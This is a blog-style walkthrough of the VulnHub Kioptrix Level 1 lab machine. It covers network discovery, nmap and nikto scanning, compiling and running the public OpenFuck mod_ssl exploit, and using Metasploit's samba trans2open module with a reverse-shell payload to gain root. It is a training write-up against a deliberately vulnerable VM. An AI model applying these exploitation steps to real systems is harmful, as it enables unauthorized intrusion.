 ```yaml
---
layout: post
title: "Kioptrix Level 1"
date: 2022-02-04
categories: [VulnHub, Easy-VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using **netdiscover** tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![image](https://user-images.githubusercontent.com/67465230/187385807-9e313937-e3a8-4c77-a170-55e4f2052b47.png)

Okay, so the IP address of the box is **10.0.2.21**.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![image](https://user-images.githubusercontent.com/67465230/187385902-3b16cad0-ad9f-48fa-b21e-dfb8018aa589.png)
![image](https://user-images.githubusercontent.com/67465230/187385950-9e2bdf9f-2c4d-4b98-8a07-8968a4dea14c.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![image](https://user-images.githubusercontent.com/67465230/187386084-99cad932-8ba6-49ac-8e85-5cc6c5b3c89a.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![image](https://user-images.githubusercontent.com/67465230/187386141-3b904790-da4c-4c87-b3f0-d1443ce06a1e.png)

that's a simple apache installation text page. 

let's visit https://10.0.2.21 as well,

![image](https://user-images.githubusercontent.com/67465230/187386200-5880cbe9-601f-49f2-b06e-f59aaeee68d1.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![image](https://user-images.githubusercontent.com/67465230/187386257-e817e76d-d93d-49e0-9340-fd29bb5a7030.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![image](https://user-images.githubusercontent.com/67465230/187386300-749b8930-2efc-44b4-b0fc-a90feef0b92e.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This **mod_ssl** vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![image](https://user-images.githubusercontent.com/67465230/187386376-45ae8bc8-2c9c-4985-bbab-18c882d5373a.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenFuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![image](https://user-images.githubusercontent.com/67465230/187386682-d5c6b624-9ec2-483a-bb69-3522a51cc86e.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![image](https://user-images.githubusercontent.com/67465230/187386755-114aa3b8-4646-4dc5-8029-377e51cd7ba6.png)

we got ROOT!!!

**Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).**

Let's take a look at another method on how we can gain root access to this box.

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![image](https://user-images.githubusercontent.com/67465230/187387539-8723acc4-7a15-44a6-9e89-4ddfccc52755.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![image](https://user-images.githubusercontent.com/67465230/187387575-e5e07760-7fc8-44d6-b717-eaaf1af8ea07.png)

we can see that our payload is automatically assigned as **generic/shell_reverse_tcp**, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![image](https://user-images.githubusercontent.com/67465230/187387762-33f56bfa-5f7a-4ebc-b7b5-46e039c7ceb7.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![image](https://user-images.githubusercontent.com/67465230/187387819-4189b69a-0a73-453b-8e09-df14cceb07df.png)
![image](https://user-images.githubusercontent.com/67465230/187387872-4e4d4b3f-abf2-410c-a82b-7a445e5e3366.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.